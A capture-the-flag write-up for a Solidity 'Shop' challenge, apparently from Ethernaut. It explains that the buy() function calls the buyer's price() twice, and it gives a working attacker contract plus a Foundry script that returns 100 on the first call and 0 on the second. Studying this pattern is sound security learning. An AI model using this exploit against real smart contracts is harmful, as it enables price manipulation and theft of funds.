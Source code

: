 # Shop   
The objective of this challenge is to set the `price` to a value lower than 100. The only function available is `buy()`, which sets the caller as the `Buyer`. The key to solving this challenge lies in manipulating the `price()` function to return different values based on the state of the contract.

The `buy()` function interacts with the `Buyer` contract by calling its `price()` function. The price is updated only if the returned value is greater than or equal to the current price and the item hasn’t been sold yet (`!isSold`). However, the `price()` function is called twice:
    First Call: To check if the `price` is valid (`_buyer.price() >= price`).
    Second Call: To update the `price` (`price = _buyer.price()`).

This behavior allows us to exploit the state change between the two calls.
Exploitation Strategy

1. Implement a Malicious `price()` Function: We can create a contract that implements the `Buyer` interface and returns different values based on the state of the `Shop` contract.
2. Return a High Price First: During the first call, return 100 to pass the initial check.
3. Return a Low Price Second: During the second call, return 0 (or any value lower than 100) to set the `price` to a lower value.

I created a smart contract and a script to automate the exploitation process:
  
Solving.sol:   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

interface IShop {
    function isSold() external view returns (bool);
}

contract Solving {
    address victim;

    constructor(address _victim) {
        victim = _victim;
    }

    function solve() external {
        victim.call(abi.encodeWithSignature("buy()"));
    }

    function price() external view returns (uint256) {
        if (!IShop(victim).isSold()) {
            return 100;
        }
        return 0;
    }
}

```
SolvingScript.s.sol:   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {

    address victim = ; // Your instance address

    function run() external {
        vm.startBroadcast();
        Solving solving = new Solving(victim);
        solving.solve();
        vm.stopBroadcast();
    }
}
```
